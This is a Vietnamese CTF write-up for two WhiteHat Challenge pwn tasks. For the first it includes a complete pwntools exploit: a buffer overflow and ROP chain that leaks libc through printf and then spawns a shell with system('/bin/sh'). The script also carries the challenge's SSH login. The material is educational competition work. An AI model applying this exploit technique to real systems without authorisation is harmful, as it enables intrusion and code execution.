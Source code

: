 ```yaml
---
layout: post
title: "[WhiteHat Challenge 01] - Pwn"
---
```




BTC cho 2 bài pwn khá dễ nên điểm cũng thấp :sosad:

### Pwn 001: 

![pwn001](http://i.imgur.com/r5x7w2Y.png)

Đây chỉ là bài bof cơ bản (như cái tên bài). 

Kiểm tra file  trước ...

![checkpwn1](http://i.imgur.com/Qmk7AGd.png)

Bật NX này nọ. Elf 64-bit nữa. 

Vào gdb debug. Tính toán khoảng cách để control eip với tính offset mấy cái hàm ...

Gồm 2 stage. Ban đầu leak địa chỉ printf để tính libc base, sau đó quay về main và đưa payload call system("/bin/sh") vào.

Code :

```python
from pwn import *

# find rop gadget
pop_rdi=0x0000000000400623

printf=0x0000000000400450
printf_got=0x0000000000601018
mainn=0x40057d

#compute offset (ssh)
off_printf=0x0000000000054340 
off_system=0x0000000000046590 
str_binsh=0x000000000017C8C3

def main(args):
	if len(args)<2:
		r=remote("127.0.0.1",9999)
	else:
		s=ssh(host="103.237.99.35",user="pwn001",password="Pwn001")
		r=s.process("./SimpleBoF")
	
	#leak libc

	pl="A"*40 

	pl+=p64(pop_rdi)
	pl+=p64(printf_got)
	pl+=p64(printf)

	pl+=p64(mainn) # return main after leak printf
	raw_input("?")
	r.sendline(pl)

	leak=r.recv(1024)

	print leak.encode('hex')

	libc_printf=u64(leak[len(leak)-8:len(leak)])
	libc_printf>>=16

	log.info("Leak printf: " + hex(libc_printf))

	libcbase=libc_printf-off_printf
	system=libcbase+off_system
	binsh=libcbase+str_binsh

	log.info("system: " + hex(system))
	log.info("binsh: " + hex(binsh))

	#exploit !
	pl="A"*40
	pl+=p64(pop_rdi)
	pl+=p64(binsh)
	pl+=p64(system)
	r.sendline(pl)

	r.interactive()

if __name__=="__main__":
	main(sys.argv)
	sys.exit(0)

```



![donepwn1](http://i.imgur.com/A6SidH2.png)



### Pwn002 

![pwn002](http://i.imgur.com/xQe7G11.png)

Cũng là bof mà ez hơn.

Kiểm tra file rồi quăng vào IDA. Để ctrinh strcpy argv của mình thì vào hàm check_argv.

![check_argv](http://i.imgur.com/Prq9xgx.png)

Nếu độ dài bằng 17 thì return 1 => cho phép copy. Và cũng vừa đủ để chạy hàm tiếp theo.

Ngoài ra ta còn thấy có sẵn hàm system. Xem thử thì thấy có func này ...

![stors](http://i.imgur.com/QMiF31k.png)

Rồi. pwn thôi.

![donepwn2](http://i.imgur.com/qjZWT4z.png)

